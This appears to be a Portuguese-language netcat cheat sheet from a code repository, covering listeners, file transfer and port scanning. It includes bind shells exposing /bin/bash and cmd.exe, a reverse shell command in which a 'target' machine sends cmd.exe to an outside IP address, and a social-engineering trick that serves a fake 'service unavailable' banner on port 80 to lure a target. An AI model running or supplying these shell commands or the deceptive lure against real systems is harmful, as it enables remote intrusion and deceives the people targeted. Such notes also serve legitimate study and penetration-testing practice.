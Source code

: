 #### netcat

nc -vlp 5050 - abrir porta TCP e ficar ouvindo a mesma.
nc -vnlup 5050 - abrir porta UDP e ficar ouvindo a mesma.

nc -vlup 5050 -e /bin/bash - abrir porta com BASH para ser utilizado.
nc -vlup 5050 -e CMD.exe - abrir porta com o PROMPT para ser utilizado.

nc -vnu 192.168.10.116 6060 - conectando na porta UDP
nc -v 192.168.10.116 5005 - conectando na porta TCP

Servidor escutar habilitando tranferência de arquivos via NetCat
-----------------------------------------------------------------

nc -lvp 1234 > netcatfile ( Servidor que está escutando na porta 1234, tem a transferencia de arquivos habilitada )

nc 192.168.10.110 1234 < arquivo.txt ( Client enviando o arquivo.txt para o servidor que está escutando na porta 1234 )


--------


server = nc -vlp 3000

alvo = nc 187.114.22.246 3000 -e C:\\Windows\\system32\\cmd.exe


---


- Pegar informações usando EngSoc. Primeiro criar um serviço na porta 80.

		nc -vlnp 80

- Ou criar um serviço com um Banner para enganar o alvo. (Ex:Server fora do ar)
	
		echo "Serviço temporariamente indisponivel" > banner
		cat banner
		nc -vlnp 80 < banner

fazer o alvo acessar um link que cai no IP externo de onde a porta 80 esta aberta.
	
		200.177.200.3:80


---



#### Port Scanning com netcat


- Verificar se a porta de um determinado host está aberta

		nc -vnz 192.168.101.103 3306

		nc -vnz farsoft.com.br 80

		nc -vnz farsoft.com.br 80